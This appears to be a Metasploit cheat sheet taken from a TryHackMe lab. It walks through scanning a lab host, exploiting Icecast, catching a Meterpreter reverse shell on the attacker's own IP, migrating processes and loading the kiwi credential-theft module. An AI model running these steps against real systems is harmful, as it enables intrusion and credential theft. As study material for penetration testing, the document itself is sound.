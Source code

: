 First use metasploit
```bash
msfdb init
```

help
```bash
msfconsole -h

msf5 > help
```

checking DB
```bash
msf5 > db_status
```

make quick connection to host
```bash
msf5 > connect [options] <host> <port>
```
## Module
Search module
```bash
msf5 > search <module>
```

Use module
```bash
msf5 > use <module>
```

Load module
```bash
msf5 > load <module>
```

Check module info
```bash
msf5 > info <module>
```

use module with search
```bash
msf5 > search multi/handler
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence
   6  exploit/multi/handler                                                 manual     No     Generic Payload Handler

msf5 > use 6
```

![](https://imgur.com/vKe4ZDj.png)

Major modules:
* Exploit : most common
* Payload : shellcode
* Encoder : in payload obfuscation, avoid signature detection
* NOP : buffer overflow
* Auxiliary : scanning & verification
* Post : looting & pivoting
## Variable

Change value of variable
```bash
msf5 > set <value>
```

Change value of variable globally
```bash
msf5 > setg <value>
```

get value of variable 
```bash
msf5 > get <value>
```

change value to null/no value
```bash
msf5 > unset <value>
```

save console output to a file
```bash
msf5 > spool
```

store setting 
```baSh
mfs5 > save
```

## Example1

run nmap & feed result to db
(-sV : detect the version of services running)
```bash
msf5 > db_nmap -sV <ip>
```

check hosts information in db
```bash
msf5 > hosts
```

check hosts 's services in db
```bash
msf5 > services
```

check hosts 's vulnerablilities
```bash
msf5 > vulns
```

connecting to it with metasploit payload
```bash
msf5 > use icecast
```

search & use  multi/handler
```bash
msf5 > search multi/handler
msf5 > use NUMBER_NEXT_TO_exploit/multi/handler
```

set variables
```bash
msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 > set LHOST <YOUR_IP_ON_TRYHACKME>
```

return previous exploit
```bash
msf5 > use icecast
```

set attack target
```bash
msf5 > set RHOSTS 10.10.8.33
```

run exploit
`expoit` or `run -j`

check running jobs
```bash
msf5 > jobs
```

check sessions & attack
```bash
msf5 > sessions
msf5 > sessions -i 2
```

transfer ourself to process
```bash
msf5 > migrate <PID>
```

get user info & system info
```bash
msf5 > getuid
msf5 > sysinfo
```

load mimikatz
```bash
msf5 > load kiwi
```
